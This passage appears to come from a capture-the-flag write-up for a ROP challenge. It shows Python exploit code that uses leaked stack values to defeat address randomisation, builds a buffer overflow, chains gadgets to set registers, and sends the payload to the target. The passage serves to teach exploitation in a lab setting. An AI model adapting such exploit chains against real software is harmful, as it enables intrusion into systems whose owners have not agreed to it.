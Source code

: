 ```python
    values = line.split("|")[1].split()
    retaddress = values[3] + values[2] + values[1] + values[0]
    retaddress = int(retaddress, 16)
    baseaddr = retaddress - 0x599
    print("Base address is: " + str(hex(baseaddr)))

    # Get the value for ebp from the leak
    line = leak.decode().split("\n")[-4]
    values = line.split("|")[1].split()
    ebpaddress = values[7] + values[6] + values[5] + values[4]
    ebpaddress = int(ebpaddress, 16)

    # Write "flag" to the required location
    buf = b"A" * 48
    buf += p32(0x67616c66)

    # Junk values to reach the return address that also happen to be valid addresses
    buf += p32(ebpaddress)
    buf += p32(ebpaddress)
    buf += p32(ebpaddress)

    # Build the ROP chain
    # mov eax, 1
    buf += p32(baseaddr + moveax)  # First return address
    # Junk values to fix the stupid leave instruction (also valid addresses)
    buf += p32(baseaddr + 43)
    buf += p32(baseaddr + 43)
    buf += p32(baseaddr + 43)

    # mov edi, 0x31337; mov esi, 0x1337
    buf += p32(baseaddr + pop3ret)
    buf += p32(0x1337)  # esi
    buf += p32(0x31337)  # edi
    buf += p32(0xdeadbeef)  # ebp

    # int3
    buf += p32(baseaddr + int3)

    r.sendline(buf)
    r.interactive()

if __name__ == "__main__":
    main()
```

![flag](https://raw.githubusercontent.com/starfleetcadet75/writeups/master/2020-pbctf/amazing-rop/flag.png)
